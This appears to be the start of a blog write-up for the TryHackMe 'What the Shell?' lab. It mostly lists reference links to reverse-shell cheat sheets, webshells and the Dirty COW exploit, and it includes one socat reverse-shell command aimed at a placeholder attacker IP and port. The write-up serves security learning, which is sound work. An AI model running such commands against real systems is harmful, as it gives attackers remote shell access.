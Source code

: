 ```yaml
---
title:  "THM: What the Shell?"
date:   2024-03-03 15:00:00 +0000
categories: [Linux]
tags: [Linux]
---
```


![image](/assets/img/wts.png) 

---
Ref: 

- [THM: What the Shell?](https://tryhackme.com/room/introtoshells)

- [Named Pipe](https://www.linuxjournal.com/article/2156) 


- [For socat to work, needs to install socat to target using "Precompiled socat binary"](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- [Dirty C0w](https://dirtycow.ninja/) 

- [Payloads All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

- [PentestMonkey PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

- [PentestMonkey Reverse Shell Cheatsheet](https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

- [```SecLists repo```](https://github.com/danielmiessler/SecLists)

-  Kali Linux - webshells located at ```/usr/share/webshells```

- [Upload Vulnerabilities Room](https://tryhackme.com/room/uploadvulns) 

- [DisroWatch](https://distrowatch.com/dwres.php?resource=major "Link")

- [Link](https://www.youtube.com/watch?v=zc5Z6C2zmNA)


---

Task 1  What is a shell?
---
